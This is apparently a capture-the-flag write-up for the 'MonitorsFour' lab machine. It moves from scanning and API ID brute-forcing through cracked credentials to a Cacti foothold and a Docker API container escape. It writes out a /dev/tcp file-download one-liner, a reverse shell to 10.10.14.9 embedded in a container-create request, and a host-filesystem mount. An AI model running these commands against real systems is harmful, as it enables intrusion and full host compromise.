import PasswordProtect from '~/components/PasswordProtect.client';

```
Scope:
10.10.11.98
```

# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -p- --min-rate=5000 -Pn -T5 -vvvv monitorsfour.htb

PORT     STATE SERVICE REASON  VERSION
80/tcp   open  http    syn-ack nginx
| http-methods: 
|_  Supported Methods: GET
|_http-title: MonitorsFour - Networking Solutions
|_http-favicon: Unknown favicon MD5: 889DCABDC39A9126364F6A675AA4167D
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
5985/tcp open  http    syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

<PasswordProtect client:load>

## 80/TCP - HTTP



### gobuster

In order to enumerate the directories I used `gobuster`.
Amongst the finds was the `.env` file which I looked into:



These credentials did not work for the login, and I tried password spraying with no luck.

I had also enumerated the `/api` endpoint:





I then added the token and got this output:



Accordingly I added an id and got this output:



This meant I could automate and brute force the id's using `ffuf`.

### ffuf

```bash
ffuf -w <(seq 0 100) -u 'http://monitorsfour.htb/api/v1/user?token=0&id=FUZZ' -fr 'No user'
```



I then enumerated all the id's in a `json` output:

```bash
for i in 6 11 10 7 2; do curl -s "http://monitorsfour.htb/api/v1/user?token=0&id=$i" | jq .; done
```



I went ahead and cracked the passwords:



the valid match we were looking for was:

```
admin
wonderful1
```

I used this credential set to log in:



Nothing was found useful here, moving on.

### cacti.monitorsfour.htb

During my enumeration I had found the `cacti.monitorsfour.htb` vhost and added it to my hosts list.





I tried password spraying some of the cracked combinations:



While `admin` didn't work I tried the first name of the `admin` user which was *marcus*:



This gave me full access!



# Foothold
## CVE-2025-24367

Using [this publicly available PoC]() I went ahead and got a reverse shell on the server:






### user.txt



Right away I noticed we landed inside of a docker container instead of the actual target.

## Enumeration

In order to transfer over files I used the following commands:

```bash
export RHOST=10.10.14.9
export RPORT=80
export LFILE=linpeas.sh
bash -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
    3<>/dev/tcp/$RHOST/$RPORT \
    | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
```





During the enumeration I found the following:



```
cactiuser
7pyrf6ly8qx4
```


I didn't find anything super useful here so instead checked the `/etc/resolv.conf` file in order to find out what the internal interface of the docker host is:


### docker

Since we know we're inside a `docker` container, and we know what the external host IP is we can use [the following techniques](https://book.hacktricks.wiki/en/network-services-pentesting/2375-pentesting-docker.html?highlight=docker#docker-basics) to enumerate the port:



I then used the following command to enumerate the `docker` instance running:

```bash
curl -s http://192.168.65.7:2375/images/json | sed 's/},{/},\n{/g' | sed 's/,/\n  /g'
```



# Privilege Escalation
## Docker API Escape - CVE-2025-9074

I started doing some enumeration about the `docker` api and how I could escape it and found the following:



I then checked [this website](https://hackviser.com/tactics/pentesting/services/docker) for useful Docker API commands:



The following steps will have to done in order to get a successfull reverse shell:

### Create Container

1. Create a `json` file which will create the container:

```bash
{
  "Image": "docker_setup-nginx-php:latest",
  "Cmd": ["bash","-c","bash -i >& /dev/tcp/10.10.14.9/80 0>&1"],
  "HostConfig": {
    "Binds": ["/mnt/host/c:/host_root"]
  }
}
```

2. Create the container:

```bash
curl -s -H "Content-Type: application/json" \
  -d @create_container.json \
  http://192.168.65.7:2375/containers/create > resp.json
```

3. Check the response file, use this as the id to start the container:

```
response:

2f2764e2948cbc1ebe3aa5a20458d381e0f975d7d6dc9047ad1811f360120288
```

```bash
curl -s -X POST http://192.168.65.7:2375/containers/2f2764e2948cbc1ebe3aa5a20458d381e0f975d7d6dc9047ad1811f360120288/start
```

4. Check listener:



Once we have a successfull container we can go ahead and read the **Windows** file system: 



### root.txt

The root flag is found in the *Administrator*'s desktop as always:



## Docker CLI - Alternative Priv Esc

Instead of sending `curl` commands to the `docker` API we can also leverage `ligolo` to set up a tunnel, then use `docker` cli commands from our own host. 
I downloaded over `ligolo` to the target and ran the agent:

```bash
export RHOST=10.10.14.9
export RPORT=8000
export LFILE=agent
bash -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
    3<>/dev/tcp/$RHOST/$RPORT \
    | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
```

Accordingly we set up the ligolo tunnel to the external interface and we can now get to work.



I used the following commands to create a container and use the image:

```bash
docker context create monitors --docer "host=tcp://192.168.65.7:2375"
```



Then used these commands to check whether the the container and image were up and running:

```bash
docker ps
docker images
```



And lastly ran the image in "opsec" mode (`--rm`):

```bash
docker run -it --rm -v /:/mnt alpine sh
```



Hereafter I was able to view the contents of the filesystem:





</PasswordProtect>

---
